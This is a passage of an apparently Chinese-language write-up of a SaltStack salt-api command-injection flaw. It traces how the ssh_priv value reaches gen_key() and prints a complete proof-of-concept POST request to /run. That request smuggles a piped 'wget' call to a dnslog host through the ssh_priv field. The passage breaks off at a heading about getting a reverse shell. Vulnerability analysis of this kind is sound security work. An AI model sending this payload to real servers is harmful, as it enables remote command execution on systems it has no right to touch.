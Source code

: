 priv的值从opts变量中获取，并调用salt.client.ssh.shell.gen_key()方法。

**salt/client/ssh/shell.py:gen_key()**

![](image/salt-11.png)

POC请求包为

```shell
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```

![](image/salt-12.png)

反弹shell的方法
